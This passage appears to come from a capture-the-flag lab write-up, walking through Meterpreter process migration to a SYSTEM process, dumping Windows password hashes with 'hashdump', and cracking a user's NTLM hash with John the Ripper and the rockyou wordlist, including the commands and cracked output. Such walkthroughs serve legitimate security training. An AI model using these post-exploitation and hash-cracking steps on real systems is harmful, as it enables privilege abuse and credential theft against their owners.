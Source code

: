 7. **List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).**

> No answer required

![Target System running Processes|500](images/thm-blue/target-osint-3.png)

8. **Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time.**

> No answer required

There are multiple services that we can use to migrate our current session. Let's try using the "cmd.exe" process which has a PID of 3064 and see if we have any luck

![Migrating Meterpreter|280](images/thm-blue/migrating-meterpreter.png)

## Task 4: Cracking

1. **Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user?**

![Dumping System Hashes](images/thm-blue/dumping-system-hashes.png)

> Jon

2. **Copy this password hash to a file and research how to crack it. What is the cracked password?**

Let's save the hash of Jon into a file and then use John the Ripper to try and crack the hash

```
> echo "Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::" > windowshash

> john --format=NT windowshash --wordlist=/usr/share/wordlists/rockyou.txt

Using default input encoding: UTF-8  
Loaded 1 password hash (NT [MD4 128/128 SSE2 4x3])  
Warning: no OpenMP support for this hash type, consider --fork=2  
Press 'q' or Ctrl-C to abort, almost any other key for status  
alqfna22         (Jon)  
1g 0:00:00:00 DONE (2021-03-11 15:05) 1.428g/s 14571Kp/s 14571Kc/s 14571KC/s alqui..alpusidi  
Use the "--show --format=NT" options to display all of the cracked passwords reliably  
Session completed
```

### Command Options

* `--format`: Specify the type of the hash
* `--wordlist`: The wordlist that is going to be used to brute force the hash
